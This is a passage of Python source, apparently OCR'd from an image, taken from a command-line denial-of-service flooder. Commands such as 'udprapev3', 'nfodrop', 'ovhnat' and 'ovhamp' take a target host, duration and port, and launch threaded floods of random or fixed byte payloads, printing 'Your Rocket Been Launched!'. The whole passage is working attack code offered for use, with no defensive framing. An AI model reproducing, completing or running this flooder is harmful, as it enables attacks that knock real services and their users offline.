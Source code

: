 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 22024
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "udprapev3":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 1
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nfodrop":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError: 
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhnat":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58\x99\x21\x58"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError: 
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhamp":
			try:
				if running >= 1: